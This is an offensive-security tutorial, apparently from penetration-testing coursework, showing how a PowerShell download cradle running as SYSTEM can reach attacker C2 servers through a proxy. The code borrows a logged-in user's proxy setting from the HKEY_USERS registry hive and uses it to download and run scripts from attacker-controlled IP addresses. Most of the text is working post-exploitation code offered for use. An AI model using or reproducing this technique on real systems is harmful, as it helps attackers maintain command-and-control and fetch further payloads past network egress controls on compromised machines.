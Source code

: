 ## A SYSTEM proxy? What?
If we get a root shell on the system, we're gonna run into some problems.
A PowerShell download cradle running in SYSTEM integrity level context does not have a proxy configuration set and may fail to call back to our C2 infrastructure.

To solve this problem, we can copy the proxy settings for a user from the windows registery and pouplate the system account with it.
Proxy settings are stored in:
```PATH
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\InternetSettings
```

We can collect the contents of the _ProxyServer_ registry key and use it to populate the proxy properties of the _Net.WebClient_ object.

BUT!

The _HKEY_USERS_ registry hive always exists and contains the content of all user HKEY_CURRENT_USER registry hives split by their respective _SIDs_.

We can start by mapping the HKEY_USERS hive with the New-PSDrive commandlet of powershell as follows:
```Powershell
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
```

We must now, loop through all the top level entries of HKEY_USERS till we find one with a matchin SID.
We can then filter out the lower 10 characters leaving only the SID, while omitting the HKEY_USERS string.

We can find all the top-level HKEY_USERS with the _Get-ChildItem_ cmdlet and use a _ForEach_ loop to find the first that contains a SID starting with "S-1-5-21-" as follows:
```Powershell
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}
```
We stop the loop once we find a valid key and store it in $start variable.

We can then use Get-ItemProperty commandlet to fetch the contents:
```Powershell
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
```
The code shown above gathers the proxy server IP address and network port from the registry and assigns it to the _$proxyAddr_ variable.


We can now create a new object from the _WebProxy_ class and assign it as the _DefaultWebProxy_ that is built into all _Net.WebClient_ objects.
```Powershell
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.119.120/run.ps1")
```

Our final code looks like so:
```Powershell
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'

ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = 
$key.Name.substring(10);break}}

$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer

[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")

$wc = new-object system.net.WebClient

$wc.DownloadString("http://192.168.49.150/run2.ps1")
```